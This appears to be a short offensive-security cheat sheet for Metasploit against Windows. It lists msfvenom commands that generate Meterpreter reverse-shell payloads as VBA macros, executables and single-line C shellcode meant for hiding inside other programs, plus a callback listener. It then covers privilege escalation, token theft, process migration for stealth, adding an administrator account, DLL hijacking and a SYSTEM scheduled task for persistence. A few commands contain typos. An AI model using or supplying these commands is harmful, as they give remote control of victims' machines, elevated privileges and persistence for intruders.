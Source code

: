 VBA MSF:

    msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=9988 -f vba-exe
    msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=9988 -f vba-psh

Generate payload:

    msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=4444 -e x86/shikata_ga_nai -f exe > payload.exe

Use listener:

    msfconsole -q -x "set payload windows/meterpreter/reverse_tcp;use exploit/multi/handler;set LHOST 192.168.1.1;set LPORT 4444;set ExitOnSession false;exploit -j;"

Inteactions with sessions:

    session -i 1  (means interact with session 1)
    shell (Launches cmd on victim machine)
    bg (backgrounding current meterpreter session)

PrivEsc Tool:

    run post/multi/recon/local_exploit_suggester
    set SESSIOS 1
    load incognito
    list tokens -u 

Stealthy Operations:

    migrate -N explorer.exe
    run post/windows/manage/migrate

VBA PowerShell Dropper
VBA Powercat

adding user to administrator group:
    
    cmd.exe /k net localgroup administrators user /add

restarting service:
    
    sc stop dllsvc & sc start dllsvc

command for compile on kali linux:

    x86_64-w64-mingw32-gcc windows_dll.c -shared -o hijackme.dll

create scheduled task with cmd
    
    schtasks /create /tn "SecurityStartup" /tr "C:\pathtoprogram.exe" /sc ONSTART /ru SYSTEM /rl HIGHEST /f

create a meterpreter shellcode for single line good for hide in the another program

    msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<YOUR_IP> LPORT=<YOUR_PORT> -f c | tr -d '\n' | sed 's/ //g'
